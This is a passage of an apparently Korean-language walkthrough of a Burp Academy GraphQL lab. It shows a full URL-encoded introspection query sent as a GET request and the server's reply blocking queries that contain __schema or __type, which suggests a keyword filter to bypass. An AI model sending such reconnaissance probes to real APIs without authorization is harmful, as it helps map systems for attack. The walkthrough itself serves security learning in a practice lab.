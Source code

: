 ![query{__typename} 요청 결과](/images/burp-academy-graphql-3-2.png)

## Introspection 시도

3. Grphaql 엔드포인트를 찾았다. Introspection 쿼리를 보내서 스키마 정보를 알아낸다. GET 파라메터로 보내야 하므로 URL인코딩된 introspection쿼리를 보내본다. 

```http
GET /api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A HTTP/2

...
```

서버측 응답이다. introspection이 허용되지 않고 있다. 쿼리에 __schema나 __type키워드가 포함되어 있는 것을 체크하는 것으로 보인다. 

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=41d5dslnYWVovlvJlfccM7PtUs3q5KFk; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 156

{
  "errors": [
    {
      "locations": [],
      "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
    }
  ]
}
```
